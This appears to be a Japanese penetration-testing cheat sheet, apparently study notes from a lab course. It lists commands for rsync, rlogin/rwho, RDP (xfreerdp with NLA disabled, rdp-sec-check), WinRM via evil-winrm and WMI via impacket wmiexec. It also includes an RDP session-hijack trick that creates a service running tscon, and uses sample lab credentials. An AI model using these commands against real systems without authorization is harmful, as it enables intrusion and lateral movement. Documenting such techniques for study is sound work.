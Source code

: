 - 全取得
```
rsync -av rsync://$Target_IP/dev
```


## R-Services
- rlogin
```
rlogin $Target_IP -l <username>
```

- ログイン中ユーザー確認
```
rwho
rusers -al $Target_IP
```


## RDP
- 通常接続
```
xfreerdp /u:<ユーザー名> /p:"<パスワード>" /v:$Target_IP /cert:ignore
```

- NLA無効化例
```
xfreerdp /u: /p: /v: /cert:ignore /sec:rdp +sec-nla
```

- セキュリティ診断
```
git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check
./rdp-sec-check.pl 10.129.201.248
```

- セッションハイジャック (tscon)
```
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
net start sessionhijack
```


## WinRM

- evil-winrm 接続
```
evil-winrm -i TargetIP -u Cry0l1t3 -p P455w0rD!
```
upload・downloadコマンドで、ファイルを転送できる

## WMI

- wmiexec
```
/usr/share/doc/python3-impacket/examples/wmiexec.py Cry0l1t3:"P455w0rD!"@10.129.201.248 "hostname"
```
